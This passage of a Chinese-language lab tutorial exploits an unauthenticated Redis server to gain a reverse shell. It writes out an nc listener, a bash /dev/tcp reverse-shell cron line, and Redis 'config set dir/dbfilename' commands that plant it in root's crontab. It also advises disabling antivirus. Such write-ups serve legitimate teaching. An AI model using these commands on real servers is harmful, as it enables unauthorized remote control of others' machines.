 
### 4. （进阶）定时任务反弹 shell 获取权限

> 以上，其实 Redis 未授权访问产生的原理与造成的危害已经显而易见了。但是，上面最终仅仅是实现了在目标机器中创建一个文件并写入了一些内容，而可造成的危害远不仅于此... :see_no_evil:

> 既然可以创建文件，并写入文本，那说明，其实已经可以让目标机器执行一些自定义指令了，可以尝试实现远控。

1. 在本机开启一个监听端口 `8888` （这个端口随便定义，只要不冲突就行）

	- `nc -lvp 8888` 开始监听 `8888` 端口
		- `nc` 是 `netcat`工具的命令，大多数 `linux` 系统自带 `netcat`， windows 机器可以在官网（ `https://eternallybored.org/misc/netcat/` ）下载，记得关闭杀软或者加入白名单。
	- 如图
	![](./images/Redis%20%E6%9C%AA%E6%8E%88%E6%9D%83/a38f7afb966942028692ff5e3f559b3a.png)

2. 重新打开一个命令行窗口（监听窗口不要关），按照上面攻击复现的步骤 1 ~ 3，在目标机器的定时任务中写入反弹`shell`脚本，并等待其执行（执行成功后，监听窗口会有变化）。

	-  连接 `redis`。（`133` 是我的 redis 服务器）
		- `redis-cli.exe -h 192.168.136.133`
	- 写入键值对，值为定时任务，1 分钟后执行反弹 `shell` 命令
		- `set x "\n\n* * * * * bash -i >& /dev/tcp/192.168.136.1/8888 0>&1\n\n"`
		- `\n` 是换行符，目的是为了与之前已经存在的定时任务分行
		- `bash -i >& /dev/tcp/192.168.136.1/8888 0>&1` 是最基本的 `bash` 反弹连接命令，`136.1` 是我本机的 ip 地址，`8888` 是上一步中设置的监听端口。
	- 修改 `redis` 持久化存储目录和文件名，触发持久化（`config set` 是动态持久化，仅在当前窗口生效，窗口关闭后需要重新设置）
		- `config set dir /var/spool/cron/`
		- `config set dbfilename root`
		- `save`
	- 过程如图